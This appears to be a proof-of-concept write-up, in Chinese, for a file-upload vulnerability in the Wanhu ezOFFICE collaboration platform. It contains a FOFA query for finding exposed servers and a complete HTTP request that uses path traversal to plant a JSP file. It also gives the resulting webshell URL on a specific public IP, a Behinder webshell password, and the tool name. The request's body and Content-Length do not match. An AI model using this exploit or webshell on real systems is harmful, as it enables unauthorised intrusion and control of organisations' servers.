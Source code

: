 # 万户 ezOFFICE 协同办公平台 wpsservlet 接口文件上传漏洞

    ## fofa

```
title="ezOFFICE协同管理平台" || title="Wanhu ezOFFICE" || title="ezOffice for iPhone" || body="EZOFFICEUSERNAME" || body="whirRootPath" || body="/defaultroot/js/cookie.js" || header="LocLan" || (banner="/defaultroot/sp/login.jsp" && banner="Set-Cookie: JSESSIONID=") || (header="Set-Cookie: OASESSIONID=" && (title="ezOFFICE" || body="whir.util.js" || body="var ezofficeUserPortal_ = Cookie(\"ezofficeUserPortal\");"))
```

## poc

```
POST /defaultroot/wpsservlet?option=saveNewFile&newdocId=01aCCc&dir=../platform/portal/layout/&fileType=.jsp HTTP/1.1
Host: 111.59.90.19:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=803e058d60f347f7b3c17fa95228eca6
Referer: http://111.59.90.19:7001
Accept-Encoding: gzip
Content-Length: 759

--803e058d60f347f7b3c17fa95228eca6
Content-Disposition: form-data; name="NewFile"; filename="01aCCc.jsp"

111
--803e058d60f347f7b3c17fa95228eca6--
```

http://111.59.90.19:7001/defaultroot/platform/portal/layout/01aCCc.jsp
Password: rebeyond
WebShell tool: Behinder v3.0
Webshell type: jsp

